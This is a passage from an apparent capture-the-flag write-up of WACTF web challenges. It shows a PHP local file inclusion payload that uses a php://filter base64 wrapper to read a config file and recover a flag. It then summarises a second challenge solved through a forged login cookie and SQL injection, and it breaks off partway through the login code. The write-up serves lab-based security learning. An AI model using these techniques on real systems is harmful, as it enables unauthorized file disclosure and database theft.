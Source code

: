 ```php
        include("en.php");
}

?>
```

A bunch of strings are being filtered by the server and stopping us from getting the `passwd` file.

At this stage I was going down a rabbit hole trying to get RCE on the server by using the various php wrappers but that was to no avail until my teammate mentioned finding the config.php file in the config directory of the server. 

Attempting to dump the contents of that file gave us the base64 encoded version and decoding it gave us the flag:

```php
http://web-3/index.php?lang=php://filter/convert.base64-encode/resource=config/config.php
<?php

// devs really need to remember to clean up their files!

// $db = "soemthing";
// $pwd = "password123!";

// WACTF{Inclusion_is_key!}
```

## Let me in

> We heard this lame website has some important book keeping records. Find the admin user, break into the application and get the flag.
Service: [http://web-4](http://web-4/)

**Summary:** One of my most favourite challenges where we first set a cookie `securelyLoggedInUser` and find a hidden form which is vulnerable to SQL Injection using which we are able to enumerate the different tables in the database and dump the flag from the `secrets` table.

Heading over to the [http://web-4](http://web-4) page we see that there is a sign in and a sign up button out of which only the sign in button works.

Checking the source code for the sign in form reveals some javascript code which checks sends the username to the api and waits for a response which if is the current username should return a md5 hash of the users password.

```jsx
<script>
    function reqListener(){
        //login here
        var password = this.responseText.split("\n")[0];
        console.log(this.responseText.split("\n")[0]);
        if(this.responseText.split("\n")[0] === ""){
            document.getElementById('error1').style.display = "block";
        }else{
            console.log(`submitted password: ${md5(document.getElementById('password').value)}\nRecieved password: ${password}`);
            if(password === md5(document.getElementById('password').value)){
                document.cookie = `securelyLoggedInUser=${document.getElementById('username').value}; path=/;`
                window.location.href = "http://web-4/";
            }else{
                document.getElementById('error2').style.display = "block";
            }
        }
    }

    function login(){
        var req = new XMLHttpRequest();
```
